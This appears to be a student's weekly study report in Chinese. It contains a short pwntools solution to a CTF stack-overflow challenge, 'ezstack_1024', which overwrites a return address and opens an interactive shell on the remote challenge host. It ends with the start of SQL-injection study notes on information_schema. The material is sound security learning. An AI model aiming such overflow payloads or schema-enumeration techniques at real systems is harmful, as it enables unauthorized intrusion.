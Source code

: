 ![1729774400726](image/1020-1026周报/1729774400726.png)

### PWN

#### ezstack_1024

```
from pwn import *
#p = process("pwn")
p = remote("challenge.qsnctf.com", 31174)
payload = b'a'*128+b'b'*8+ p64(0x401257)
p.sendline(payload)
p.interactive()
```

# 本周学习总结

#### SQL

[教程博客](https://rickliu.com/posts/1dc1c5acd0e2/index.html)

##### information_schema

information_schema为系统自带的数据库

里面有一个tables表，该表存放着数据库和数据表的关联，其中table_schema为存储数据库名的字段，table_name为存储表名的字段
